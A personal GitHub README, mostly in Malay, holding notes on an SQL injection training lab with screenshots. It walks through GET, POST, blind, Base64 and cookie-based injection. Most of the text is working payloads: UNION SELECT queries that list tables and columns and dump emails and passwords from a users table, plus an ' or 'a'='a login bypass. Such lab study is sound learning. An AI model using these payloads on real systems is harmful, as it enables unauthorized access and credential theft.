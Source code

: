 # SQL-Injection-Training-Lab-notes
SQL Injection Training Lab notes for myself

## Level A - Basic GET SQL Injection
- common payload untuk sqli `'` `"` `\` `)'` `}'` `\'` untuk test web injectable
- note: jika `blind base` page tidak keluar error page tapi page menjadi blank
- note: `--` simbol untuk komen di sql
- note: `+` simbol untuk space pada url browser
- note: jika string `union all select` detect oleh web boleh guna hex iaitu dalam bentuk %61 atau no2 lain

- gambar dibawah contoh untuk test error web selepas guna payload `'` = `single quote`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

- payload `'--+` web menjadi normal dan web ini mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

- payload `'+order+by+6--+` untuk mencari berapa column yang ada dalam db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk melihat username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter current db sahaja berdasarkan payload step sebelumnya

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis col dalam db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

- payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna `group_concat(email)`,`group_concat(password)`,`from users`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)

## Level B - Basic POST SQL Injection
- notes: beza get method dengan post method ialah post tiada di url browser dan get ada di url browser
- notes: guna `space` untuk ganti `+` dalam post method

- payload `user1'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9b258237-6335-4e64-84cd-e29f02e2776b)

- payload `user1'-- ` web menjadi normal bermaksud web mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e2337ce0-2c05-440b-85ba-c5aea13b2fd2)

- payload `user1'order by 5-- ` untuk mencari berapa col yang ada dlm db, contoh sampai 6 dapat error bermaksud ada 5 col dalam db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f1887807-0685-4449-b862-9c7a6161d3c8)

- payload `user-1'union all select 1,2,3,4,5-- ` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/779ad3ae-ad74-440d-b9c9-699f86e803c4)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables-- ` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/31af9e0f-04ac-4619-a3be-74ae349f2f92)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()-- ` seperti step sebelumnya tapi filter kepada current db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bc76091e-ebe5-494d-83c1-f2347a55f614)

- payload `user-1'union all select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='users' and table_schema=database()-- ` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5f3e4061-f448-4a3d-9985-f9624eee7177)

- payload `user-1'union all select 1,group_concat(email),group_concat(password),4,5 from users-- ` untuk senarai email dan password

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/dc5c638f-be2f-4c0c-b3f9-5d86750151c9)

## Level C - POST Bypass Auth
- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/6ba94a2a-bda7-4d3e-8305-d6582f79378b)

- payload `'-- ` web menjadi normal bermaksud web ini ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/fd5010f6-14d0-4c94-9edf-03ea16485da9)

- payload `' or 'a' = 'a` untuk bypass login dan paste letak di password sekali, auto dapat masuk login

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f30df5d1-917f-4475-aabf-e3b9a0631812)

## Level D - GET Blind Based
- notes: blind sama dengan get method
- notes: blind tidak keluar error atau data 

- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/622c5881-2e02-498b-b282-16e20422c651)

- payload `'--+` web menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7f368d86-c3f8-4dc7-abc5-d3fa1cb2b789)

- payload `'+order+by+5--+` untuk mencari berapa col yang ada dalam db contoh 6 dapat blind error so db ada 5 column

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bbccdea2-3ebb-4987-9704-8a587d2299d1)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace dengan apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1a51e4f-3619-4ea8-ab1d-2a9d67def8e2)

- step seterusnya sama saja dengan get method

## Level E - Base64 GET SQL Injection

maksud encoded ialah berbeza bentuk contoh biasa Base64
Base64 `a-z` `A-Z` `0-9` `/` `+` dan 4 data iaitu `XX==` `XXX=` `XXXX`

payload `1'` convert `MSc=` untuk check error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/8ae0dcee-a744-4c48-9f98-b1504516374e)

payload `1'-- ` convert `MSctLSA=` untuk repair page dan vuln page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5452bec6-df24-4917-9c15-44fe740658ad)

payload `1' order by 5-- ` convert `MScgb3JkZXIgYnkgNS0tIA==` kenapa 5 sebab db ada 5 column dan 6 dpt error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5a8141c0-ae0f-40da-bbca-565ca9a7e62f)

payload `-1' union all select 1,2,3,4,5-- ` convert `LTEnIHVuaW9uIGFsbCBzZWxlY3QgMSwyLDMsNCw1LS0g` untuk check name dan email berada di column mana dlm db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/3ff88ac0-e86a-4e67-8444-b748dec2f61f)

dan step seterusnya sama dgn level lain.

## Level H - Cookie Base SQL Injection
untuk check cookie buka `developer tools` atau button `f12` atau `inspect element` di browser bahagian console taip `document.cookie`
dan cookie disimpan di browser

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c75cd5b3-a35f-4532-b367-d2ac0bae1b0d)

payload `document.cookie = "userid=2"` untuk tukar kpd user 2

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/afc4f45f-14b4-4630-b112-35f95ff72dd7)

payload `document.cookie = "userid=2'"` untuk check error page

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/33eb3578-4dcb-490b-bb42-e47d96dc5b34)

payload `document.cookie = "userid=1'-- -"` untuk repair dan page ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7fa4c83f-7ff9-47f2-bdfd-6571455c7053)

payload  `document.cookie = "userid=-1'union all select 1,2,3,4,5 -- -"` untuk check name dan email berada di  column mana dlm db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1bb83ee-4f2c-4f67-97e8-848717a43582)

dan step seterunya sama dgn level sebelumnya
